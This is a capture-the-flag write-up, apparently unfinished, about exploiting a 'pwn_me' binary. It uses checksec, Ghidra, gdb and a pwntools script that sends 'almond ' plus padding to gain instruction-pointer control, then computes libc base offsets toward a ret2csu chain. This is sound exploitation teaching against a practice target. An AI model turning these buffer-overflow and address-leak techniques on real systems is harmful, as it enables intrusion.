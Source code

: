 # PWN1

Status: Unsolved

With all binaries, want to start with checking the security structures
```
$ checksec pwn_me
[*] '/home/ubuntu/CCT_2020/PWN/pwn1/pwn_me'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Alright with PIE and NX, we are in for a bit of a treat possibly, but no canary so overflows are possibly.

Ok so now we just run the executable to see what we are working with
```
$ chmod u+x pwn_me
$ ./pwn_me
0x7fc9d969bca0
Cookie Monster ONLY Wants...
PROMPT>ello
PROMPT>^C
```
So we have some sort of address put out, a message, then a never eneding prompt. Does this same behavior happen on the remote service"

```
$ ping www.cybercompetitionteam.com
64 bytes from 64.227.23.177 (64.227.23.177): icmp_seq=1 ttl=38 time=8.87 ms
$ nc 64.227.23.177 1337
0x7f9a13971ca0
Cookie Monster ONLY Wants...
PROMPT>
```
Yep, behavior is the same.

Pumping the binary into Ghidra we see on line 62
```
printf("%p\n",*chunks[7]);
```
This is the pointer being putout, which is pointer partway into this stack buffer.

Dropping this into gdb to manipulate the win funciton:
```
$ gdb pwn_me
> disass main
> b *main+494
> r
> set $rax=1
> c
Segmentation fault
```
So something is happening with the pointers it is referencing if we try and jump it. This tells me we may have to play by the game of the binary, rather than going for an overflow.

In Ghidra in the check cookies function we see
```
    iVar1 = strcmp(input,"snickerdoodles");
    if (iVar1 == 0) {
      iVar1 = 0;
    }
    else {
      iVar1 = strcmp(input,"oatmeal");
      if (iVar1 == 0) {
        iVar1 = 0;
      }
      else {
        iVar1 = strcmp(input,"gingersnap");
        if (iVar1 == 0) {
          iVar1 = 0;
        }
        else {
          iVar1 = strcmp(input,"shortbread");
          if (iVar1 == 0) {
            iVar1 = 0;
          }
          else {
            iVar1 = strcmp(input,"butter");
            if (iVar1 == 0) {
              iVar1 = 0;
            }
            else {
              iVar1 = strcmp(input,"molasses");
              if (iVar1 == 0) {
                iVar1 = 0;
              }
              else {
                iVar1 = strcmp(input,"sugar");
                if (iVar1 == 0) {
                  iVar1 = 0;
                }
                else {
                  iVar1 = strcmp(input,"sugar");
                  if (iVar1 == 0) {
                    iVar1 = 0;
                  }
                  else {
                    iVar1 = strcmp(input,"sugar");
                    if (iVar1 == 0) {
                      iVar1 = 0;
                    }
                    else {
                      iVar1 = strcmp(input,"almond");
                      if (iVar1 == 0) {
                        iVar1 = 1;
                      }
                      else {
                        iVar1 = strcmp(input,"toffee");
                        if (iVar1 == 0) {
                          iVar1 = 0;
                        }
                        else {
                          iVar1 = strcmp(input,"maple");
                          if (iVar1 == 0) {
                            iVar1 = 0;
                          }
                          else {
                            iVar1 = strcmp(input,"fluffernutter");
                            if (iVar1 == 0) {
                              iVar1 = 0;
                            }
                            else {
                              iVar1 = 0;
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  return iVar1;
}
```

So lets see where entering this into the funciton works for us
```
$ gdb pwn_me
> b get_cookie
> r
snickerdoodles
```
So as long as I have a space afte snickerdoodles, I am fine. So it is sending me back into the function. Let's see whet this all looks like when I enter the inputs it is looking for

```
$ ./pwn_me
0x7fb480ae5ca0
Cookie Monster ONLY Wants...
PROMPT>almond


Segmentation fault (core dumped)
```
Alright, that is interesting, what is happening here?
```
$ gdb pwn_me 
> b *main+494 //right after the return from get_cookie
> r
```

So the `memcpy` call puts the input into another address ... boom, there it is. The puts call (`*main+549) prints everything after the space in almond, so we just need to overflow that until we get to the flag. 

Wait no, we want shell, not a flag. Maybe it is a printf vulnerability?  

Ok, we soldier on, why is the segfault happening? 
```
$ gdb pwn_me
> b *main+0
> reg
RBP  0x555555555620 (__libc_csu_init)
> b *main+559 // the leave of main
> si
> x/dx $rsp
0x00000
```

So something is happening here where the stack is shifting causing the segfault, the question is, can we control that?

Well, lets see if we can overwite rip, get us some options.

Boom, got it with pwntools
```
from pwn import *

p = process("./pwn_me")
payload = "almond "
payload += "A"*417
payload += "B"*8
p.sendline(payload)
print(p.recv())
```

So we have RIP control, we are going to need to leak an address to figure out libc.

Alright, so were is this address pointing?
```
$ python hack.py
0x7f42b752bca0
$ gdb -p=123475
> vmmap 
 0x7f42b752b000     0x7f42b752d000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
```

Ok, so is this somehwere in the plt or the GOT? Nope, I went through and followed the GOT and the PLT from puts, this is nowhere near there. Where is this? Well thats exactly the thing, it is a libc address. 

So let's see if this address is consistent in libc? 
| PID | Printed Addr | Puts Addr | Difference |
|--|-|-|-|
|11495| `0x7fcff38ffca0`| `0x00007fcff3624070`| 2997296 |
|11511| `'0x7f742f59fca0` | `0x00007f742f2c4070` | 2997296 |

Got it, so we have a libc addr straight up given to us, what next? Ret2CSU. For that, we are going to need the base address of libc.


| PID | Printed Addr | LIBC Base Addr | Difference |
|--|-|-|-|
|11580| `0x7fd22f8a1ca0`| `0x7fd22f4b6000`| 4111520 |
|11596| `0x7f3f0fb3eca0`| `0x7f3f0f753000`| 4111520 |


Got up to line 100 in hack.py of setting up the ret2csu
